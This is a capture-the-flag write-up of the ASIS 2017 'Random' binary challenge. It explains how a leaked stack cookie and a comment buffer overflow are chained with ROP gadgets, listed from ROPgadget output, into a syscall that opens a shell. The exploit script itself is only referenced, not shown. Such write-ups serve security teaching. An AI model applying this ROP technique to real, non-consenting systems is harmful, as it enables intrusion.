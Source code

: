 ```yaml
---
layout: post
title: ASIS 2017 Quals Random
comments: false
category: ctf
tags: ctf, asis 2017, pwnable, rop
---
```


This is a write of the cahllenge Random from ASIS Quals 2017 CTF

## The Challenge

Its a simple 64-bit binary which generates 'random' numbers, it has stack cookies.

## Hand fuzzing

It was not necessary to reverse engineer the binary as it has odd and exploitable behaviour.

The binary behaves differently locally and remotely.
Locally it returns only 0 when giving random numbers.
Remotely is returns what looks like random numbers.
After a short while of debugging I deduce that it is leaking the stack cookie.
Also there is a buffer overflow when leaving a comment.

## Exploitation

I found ROP gadgets using `ROPGadget`

```console
$ ROPgadget --binary Random_Generator_8c110de2ce4abb0f909bca289fb7b1a99fd18ef1
Gadgets information
============================================================
...
0x0000000000400f88 : mov rdx, rsi ; ret
...
0x0000000000400f8c : pop rax ; pop rdi ; ret
...
0x0000000000400f61 : pop rsi ; pop r15 ; ret
...
0x0000000000400f8f : syscall ; ret
```

These gadget are enough to make syscalls with 3 arguments, so I made an exploit:

{% gist efc21d1a6923e2a1c416c71202ddbd92 %}

Running it pops a shell:

```console
$ python doit.py
[+] Starting local process './Random_Generator_8c110de2ce4abb0f909bca289fb7b1a99fd18ef1': Done
[*] Stack cookie = 0x0000000000000000
[*] Switching to interactive mode
$ bash -l
$ cowsay "I got shell"
 _____________
< I got shell >
 -------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
$ ^C
[*] Interrupted
[*] Stopped program './Random_Generator_8c110de2ce4abb0f909bca289fb7b1a99fd18ef1'
```

